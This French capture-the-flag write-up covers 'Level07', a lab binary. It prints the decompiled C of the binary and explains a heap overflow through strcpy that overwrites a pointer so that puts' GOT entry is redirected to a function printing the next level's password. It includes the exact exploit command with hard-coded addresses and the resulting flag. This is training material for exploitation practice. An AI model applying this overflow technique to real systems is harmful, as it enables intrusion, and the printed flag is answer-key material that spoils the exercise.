 # Rapport CTF - [Level07]

### Observation :
En arrivant sur le level7 on trouve un executable nommé level7.\
Quand nous essayons de le lancer on se rend compte qu'il prend 2 arguments et ecrit `~~`, puis return. \
Regardons donc avec gdb ou un decompilateur.

### Explication de Code :
En lancant le binaire dans hex-ray ou ghidra nous obtenons :
```c
//----- (080484F4) --------------------------------------------------------
int m()
{
  time_t v0; // eax

  v0 = time(0);
  return printf("%s - %d\n", c, v0);
}

//----- (08048521) --------------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
  FILE *v3; // eax
  void *v5; // [esp+18h] [ebp-8h]
  void *v6; // [esp+1Ch] [ebp-4h]

  v6 = malloc(8u);
  *(_DWORD *)v6 = 1;
  *((_DWORD *)v6 + 1) = malloc(8u);
  v5 = malloc(8u);
  *(_DWORD *)v5 = 2;
  *((_DWORD *)v5 + 1) = malloc(8u);
  strcpy(*((char **)v6 + 1), argv[1]);
  strcpy(*((char **)v5 + 1), argv[2]);
  v3 = fopen("/home/user/level8/.pass", "r");
  fgets(c, 68, v3);
  puts("~~");
  return 0;
}
```
On peux voir le file v3 qui open le .pass du level suivant, et une fonction `m()` qui nous permet de printf v3. \
On peux aussi voir des malloc comme dans le level precedant, nous allons donc surment devoir faire de meme.

### Solution :
Il nous faut donc overflow le premier malloc `v6` sur `v5` avec 20 octets random 16 pour le malloc + 4 pour v5, puis ajouter l'adresse jump de puts (pour jump sur `m()`), ensuite dans la 2eme chaine de caractere nous n'avons plus qu'a mettre l'adresse de notre fonction `m()`.

On fait la commande suivante pour obtenir le flag :
```sh
./level7 $(python -c "print ('a'*(16 + 4) + '\x08\x04\x99\x28'[::-1])") $(python -c "print '\x08\x04\x84\xf4'[::-1]")
```

### Resultat :
```sh
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```
